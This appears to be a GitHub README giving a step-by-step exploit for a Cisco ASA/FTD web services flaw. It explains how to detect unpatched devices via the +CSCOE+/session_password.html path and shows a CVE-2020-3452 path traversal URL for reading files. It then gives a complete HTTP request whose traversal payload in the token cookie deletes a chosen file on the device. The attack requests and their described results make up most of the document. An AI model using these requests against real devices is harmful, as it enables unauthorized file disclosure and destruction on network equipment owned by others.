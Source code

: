 # Exploit CISCO Remove File Via session_password.html

## Detect and Verify that the vulnerability:

Downloaded the vulnerable code and compared it with the code from local environment.
![LFD](lfd.png)

When this path exists +CSCOE+/session_password.html this means the vulnerability isn't patched , and if the response is 404 that means the vulnerability is patched

Vuln:
![password](password.png)

Patched:
![fixed](fixed.png)

## Exploiting the vulnerability:
Trying to download a file using CVE-2020-3452:

https://192.168.1.100/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../

![file_before_delete](file_before_delete.png)

Issue Request Exploit the vulnerability:

```
GET /+CSCOE+/session_password.html HTTP/1.1
Host: 192.168.1.100
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Cookie: token=../../../../../../+CSCOE+/wrong_url.html
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

The file is read and stored in webvpn cookie and then deleted.
![delete_file.png](delete_file.png)

```
https://192.168.1.100/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../

```

This file has been deleted.
![file_after_delete.png](file_after_delete.png)